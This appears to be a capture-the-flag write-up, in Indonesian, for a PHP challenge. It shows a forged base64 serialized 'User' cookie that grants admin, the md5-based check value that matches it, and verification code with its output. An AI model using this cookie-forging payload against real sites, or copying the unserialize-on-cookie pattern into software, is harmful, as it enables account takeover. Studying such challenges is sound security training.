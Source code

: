 * Cookie auth merupakan serialize dari objek User dengan user-> admmin dan pass-> True + diencode ke base64. Adapun cookie check merupakan hasil encode base64 dari md5       cookie auth. Jadi untuk mendaptkan admin, peserta harus membuat payload objek untuk diserialize yang benar (seperti di bawah) dan mengencodenya ke base64 sebagai cookie auth. Lalu menghash md5 
dari hasil cookie auth sebagai cookie check. 

  Lebih lengkap:
  ```
  <?php
  $_COOKIE['auth'] = 'Tzo0OiJVc2VyIjoyOntzOjQ6InVzZXIiO3M6NToiYWRtaW4iO3M6NDoicGFzcyI7YjoxO30=';
  //O:4:"User":2:{s:4:"user";s:5:"admin";s:4:"pass";b:1;} -> md5 -> 6897f0060a84ecb0600e4167d2a748e4

  $_COOKIE['check'] = 'Njg5N2YwMDYwYTg0ZWNiMDYwMGU0MTY3ZDJhNzQ4ZTQ=';
  //base64 6897f0060a84ecb0600e4167d2a748e4

  var_dump(md5($_COOKIE['auth']));
  var_dump(base64_decode($_COOKIE['check']));

  if(md5($_COOKIE['auth']) === base64_decode($_COOKIE['check'])) {
      $login = unserialize(base64_decode($_COOKIE['auth']));
      var_dump($login);
  }else {

  }
  ```
  
  ```
  string(32) "6897f0060a84ecb0600e4167d2a748e4"
  string(32) "6897f0060a84ecb0600e4167d2a748e4"
  object(__PHP_Incomplete_Class)#1 (3) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(4) "User"
  ["user"]=>
  string(5) "admin"
  ["pass"]=>
  bool(true)
  }
  ```
